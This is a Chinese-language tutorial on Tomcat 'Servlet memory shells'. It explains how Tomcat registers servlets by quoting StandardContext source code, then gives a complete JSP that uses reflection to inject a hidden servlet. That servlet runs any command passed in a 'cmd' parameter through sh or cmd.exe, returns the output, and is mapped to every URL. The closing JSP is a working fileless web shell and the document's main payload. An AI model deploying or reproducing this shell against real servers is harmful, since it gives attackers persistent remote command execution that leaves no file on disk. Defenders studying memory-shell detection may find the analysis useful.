 # Servlet内存马

## 1.基础知识













## 2.原理分析

在上述代码中，定义了一个流程：

1. 通过 `webxml.getServlets()` 获取所有的 `Servlet` 定义,建立循环。

   ```java
   for (ServletDef servlet : webxml.getServlets().values()) {
   ...
   }
   ```

2. 创建 `Wrapper` 对象，设置 `Servlet` 的加载顺序、是否调用(获取 `</load-on-startup>` 值)、名称等基本属性。

   ```java
               Wrapper wrapper = context.createWrapper();
               if (servlet.getLoadOnStartup() != null) {
                   wrapper.setLoadOnStartup(servlet.getLoadOnStartup().intValue());
               }
               if (servlet.getEnabled() != null) {
                   wrapper.setEnabled(servlet.getEnabled().booleanValue());
               }
               wrapper.setName(servlet.getServletName());
   ```

3. 遍历 `Servlet` 的初始化参数设置到 `Wrapper` 中，并处理安全角色应用、将角色和对应链接添加到 `Wrapper` 中

   ```java
               Map<String,String> params = servlet.getParameterMap();
               for (Entry<String, String> entry : params.entrySet()) {
                   wrapper.addInitParameter(entry.getKey(), entry.getValue());
               }
               wrapper.setRunAs(servlet.getRunAs());
               Set<SecurityRoleRef> roleRefs = servlet.getSecurityRoleRefs();
               for (SecurityRoleRef roleRef : roleRefs) {
                   wrapper.addSecurityReference(
                           roleRef.getName(), roleRef.getLink());
               }
               wrapper.setServletClass(servlet.getServletClass());
   ```

4. 如果 `Servlet` 定义包含文件上传配置、则根据配置信息设置 `MultipartConfigElement`；设置 `Servlet` 是否支持异步操作； 

   ```java
   			 MultipartDef multipartdef = servlet.getMultipartDef();
               if (multipartdef != null) {
                   long maxFileSize = -1;
                   long maxRequestSize = -1;
                   int fileSizeThreshold = 0;
   
                   if(null != multipartdef.getMaxFileSize()) {
                       maxFileSize = Long.parseLong(multipartdef.getMaxFileSize());
                   }
                   if(null != multipartdef.getMaxRequestSize()) {
                       maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
                   }
                   if(null != multipartdef.getFileSizeThreshold()) {
                       fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
                   }
   
                   wrapper.setMultipartConfigElement(new MultipartConfigElement(
                           multipartdef.getLocation(),
                           maxFileSize,
                           maxRequestSize,
                           fileSizeThreshold));
               }
               if (servlet.getAsyncSupported() != null) {
                   wrapper.setAsyncSupported(
                           servlet.getAsyncSupported().booleanValue());
               }
               wrapper.setOverridable(servlet.isOverridable());
   ```

5. 通过 `context.addChild(wrapper);` 将配置好的 `Wrapper` 添加到 `Context` 中，完成 `Servlet` 初始化过程。

   ```java
     context.addChild(wrapper);
   ```

简单总结上述流程：

1. 创建 `Wrapper` 对象
2. 设置 `Wrapper`对象中`Servlet` 的 `LoadStartUp` 的值
3. 设置`Wrapper`对象中 `Servlet` 的名称
4. 设置`Wrapper`对象中 `Servlet` 的 `Class`
5. 将 `Wrapper` 添加到 `Context` 中
6. 将 `URL` 与自定义 `servlet` 类做关联映射

## 3.代码实现

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%

    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);
    Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();

    HttpServlet servlet = new HttpServlet(){

        @Override
        protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            if (req.getParameter("cmd") != null){
                boolean isLinux = true;
                String os = System.getProperty("os.name");
                if (os != null && os.toLowerCase().contains("win")){
                    isLinux = false;
                }
                String[] exp = isLinux ? new String[]{"sh","-c",req.getParameter("cmd")} : new String[]{"cmd.exe","/c",req.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(exp).getInputStream();
                Scanner s = new Scanner(inputStream).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                resp.getWriter().write(output);
                resp.getWriter().flush();
            }
        }
    };

    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName("MyServlet");
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servlet);
    wrapper.setServletClass(HttpServlet.class.getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/*","MyServlet");
    out.println("success...");
    out.flush();

%>
```

